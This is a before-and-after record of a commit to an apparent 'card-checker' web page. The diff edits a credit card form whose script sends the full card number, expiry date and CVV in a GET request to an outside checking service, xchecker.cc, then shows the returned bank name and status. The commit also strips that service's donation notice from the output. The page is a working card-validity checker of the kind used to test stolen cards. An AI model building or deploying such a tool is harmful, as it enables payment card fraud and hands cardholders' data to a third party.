

Before and after one commit to mvalles36/card-checker, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 87-470 px from the top of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -6,14 +6,43 @@
   <script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>
 </head>
 <body>
-        <form id="cardForm">
+  <form id="cardForm" netlify netlify-data="true">
     <h1>Credit Card Validation</h1>
 
     <label for="cardNumber">Credit Card Number:</label>
     <input type="text" id="cardNumber" required>
 
-                <label for="expirationDate">Expiration Date:</label>
-                <input type="text" id="expirationDate" required>
+    <label for="expirationMonth">Expiration Date:</label>
+    <div class="expiration-container">
+      <select id="expirationMonth" required>
+        <option value="">Month</option>
+        <option value="01">01 - January</option>
+        <option value="02">02 - February</option>
+        <option value="03">03 - March</option>
+        <option value="04">04 - April</option>
+        <option value="05">05 - May</option>
+        <option value="06">06 - June</option>
+        <option value="07">07 - July</option>
+        <option value="08">08 - August</option>
+        <option value="09">09 - September</option>
+        <option value="10">10 - October</option>
+        <option value="11">11 - November</option>
+        <option value="12">12 - December</option>
+      </select>
+
+      <select id="expirationYear" required>
+        <option value="">Year</option>
+        <option value="2023">2023</option>
+        <option value="2024">2024</option>
+        <option value="2025">2025</option>
+        <option value="2026">2026</option>
+        <option value="2027">2027</option>
+        <option value="2028">2028</option>
+        <option value="2029">2029</option>
+        <option value="2030">2030</option>
+        <option value="2031">2031</option>
+      </select>
+    </div>
 
     <label for="cvv">CVV:</label>
     <input type="text" id="cvv" required>
@@ -29,12 +58,13 @@
         event.preventDefault(); // Prevent form submission
 
         var cardNumber = $('#cardNumber').val();
-                                                    var expirationDate = $('#expirationDate').val();
+        var expirationMonth = $('#expirationMonth').val();
+        var expirationYear = $('#expirationYear').val();
         var cvv = $('#cvv').val();
 
         // Make the API request
         var settings = {
-                                                    "url": "https://www.xchecker.cc/api.php?cc=" + cardNumber + "|" + expirationDate + "|" + cvv,
+          "url": "https://www.xchecker.cc/api.php?cc=" + cardNumber + "|" + expirationMonth + "|" + expirationYear.slice(-2) + "|" + cvv,
           "method": "GET",
           "timeout": 0
         };
@@ -52,6 +82,9 @@
         var status = response.status;
         var details = response.details;
 
+        // Remove unwanted text from details
+        details = details.replace(/\nPlease consider making a donation or we will be forced to shutdown the xchecker.cc service, thanks you.\nDonations: bc1qlfu2atqvwnw4mlwv3f3wggpwtnvyhpxw3hyl30/g, '');
+
         // Display the result
         resultContainer.append("<p>Bank Name: " + bankName + "</p>");
         resultContainer.append("<p>Status: " + status + "</p>");
```
Lines whose indentation alone changed are shown as unchanged.
